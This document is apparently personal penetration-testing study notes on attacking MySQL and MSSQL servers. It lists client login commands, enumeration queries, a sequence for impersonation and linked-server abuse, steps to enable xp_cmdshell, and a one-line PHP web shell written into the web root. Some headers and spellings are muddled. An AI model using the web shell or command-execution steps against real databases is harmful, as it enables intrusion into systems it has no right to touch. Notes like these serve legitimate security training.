 - **sqsh**: shell database
  - sqsh -S $TARGET -U user -p pass
  - sqsh -S $TARGET -U .\\USER -P 'PASS' -h = domain
- **impacket-mssqlclient**
  - impacket-mssqlclient -p PORT user@$target
- **mysql**
  - mysql -h $TARGET -U user -pPass
  - sqlcmd -S SERVERNAME\\accountname -U julio -P 'MyPassword!' -y 30 -Y 30
    - -y (SQLCMDMAXVARTYPEWIDTH) 
    - -Y (SQLCMDMAXFIXEDTYPEWIDTH) 

- Steps
  - login with current user
  - check permissions
  - check impersonation
  - impersonate
  - check linked server
  - execute(cmd) at linkede

#### Queries

##### MySQL
```
myslq: system db
information_schema: db metadata
performace_schema:  monitoring
sys:                interperte performance schema
```

- Queries
```
Select name FROM master.dbo.sysdatabases
USE db_name
SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES
Select table_name FROM db_name.INFORMATION_SCHEMA.TABLES
Select * from table_name;
```

- Commands
```
- xp_cmdshell
xp_cmdshell 'COMMAND'
```

- Enable xp_cmdshell
```
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

- Write Files
```
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
show variables like "secure_file_priv"; = read/write 
```

